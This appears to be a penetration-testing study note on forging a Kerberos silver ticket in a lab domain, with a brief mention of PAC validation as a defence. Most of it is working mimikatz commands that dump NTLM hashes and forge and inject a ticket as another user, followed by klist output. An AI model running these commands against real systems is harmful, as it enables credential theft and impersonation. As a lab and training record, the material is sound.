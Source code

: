 Isme you already know the password of the service account. So you use that to create a *forged ticket* where you can login as a specific user (Like Administrator).
With this attack, we skip the part of requesting ticket of the service account as we already know it's password.

Can be prevented by **Privileged Account Certificate (PAC)** validation!

```powershell
# Open mimikatz in Powershell
privilege::debug
sekurlsa::logonpasswords       # Copy NTLM hash of the service user

# Next copy SID of the current user (Copy only the SID in quotes)
whoami /user

User Name SID
========= =============================================
corp\jeff "S-1-5-21-1987370270-658905905-1781884369"-1105
```

```mimikatz
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

```powershell
# Confirm ticket
klist

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```